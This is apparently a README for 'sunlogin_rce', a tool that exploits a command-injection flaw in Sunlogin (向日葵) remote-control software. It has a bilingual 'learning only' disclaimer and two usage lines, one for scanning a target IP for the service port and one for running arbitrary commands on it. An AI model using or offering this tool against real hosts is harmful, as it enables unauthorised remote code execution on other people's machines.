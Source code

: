 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.
# 向日葵 命令注入（rce）利用
sunlogin_rce.exe -H ip 扫描存在的端口

sunlogin_rce.exe -H ip -P rce 端口 -C 执行命令
